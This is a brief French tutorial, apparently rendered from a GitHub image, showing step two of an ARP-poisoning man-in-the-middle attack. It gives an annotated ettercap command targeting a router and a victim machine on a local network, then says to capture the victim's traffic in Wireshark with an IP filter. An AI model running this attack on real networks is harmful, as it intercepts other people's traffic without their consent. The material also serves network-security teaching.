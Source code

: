 # 2. Attaque "Man in the Middle" (MITM) en utilisant du ARP Poisoning

```bash
# -T : indique que l'on veut que du texte en sortie (`printf`) (nous utiliserons Wireshark plus tard)
# -S : on ne fait pas de certificat SSL. on ne pourra donc pas intercepter le traffic https mais c'est suffisant pour notre exemple
# -i : interface réseau
# -M :  indique que l'on veut activer l'attaque man in the middle
#       arp:remote // on veut faire une attaque ARP
sudo ettercap -T -S -i wlan0 -M arp:remote /10.0.0.1// /10.0.0.129//
#                                                  ^ routeur   ^^^ la machine qu'on veut attaquer
```

On ouvre **Wireshark** sur l'interface `wlan0`.

Ici, on peut appliquer des filtres tel que `ip.addr == 10.0.0.129`
qui va uniquement afficher les requêtes de l'appareil qu'on veut attaquer.

Maintenant on peut voir toutes les requêtes effectuées.

